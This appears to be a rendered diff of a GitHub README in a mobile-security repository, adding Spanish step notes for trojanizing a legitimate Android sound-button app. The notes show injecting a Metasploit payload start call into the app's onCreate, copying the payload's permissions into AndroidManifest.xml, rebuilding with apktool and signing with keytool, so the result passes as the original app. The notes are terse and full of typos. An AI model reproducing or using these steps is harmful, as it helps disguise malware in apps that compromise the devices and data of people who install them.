

Before and after one commit to shencanet/Mobile_secutity, a Markdown page: README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -5,8 +5,24 @@ carpera 100 sonidos listamos<br>
 y buscamos punto inicio aplicacioon legitima<br>
 grep -B2 "MAIN" AndroidManifest.xml<br>
 android:name="com.zeptars.soundbuttons.RunnerActivity"<br>
+<br>Buscamos este fichero
 
+<br><br>buscar onCreate inyectar inicio payload<br>
 invoke-static {p0}, Lcom/metasploit/stage/Payload;->start (Landroid/content/Context;)<br>
+Guardar
+abrir metaexploid
+cat AndroidManifest.xml | grep "uses-permisoin"<br>
+en metaexploid
+<br>copiar todos pernisos en AndroidManifest.xmlAndroidManifest.xml
+<br>apktool b 100sonidos
+crea la compliacion
+
+generar genkey
+keytool -genkey -v -keystore 100sonidos.keustore -alias 100sonidos -keyalg RSA -keysize 2048 -validity 10000
+pide password
+generamos certificado
+
+
 
 
 <br># Mobile Security Framework (MobSF)<br>
```
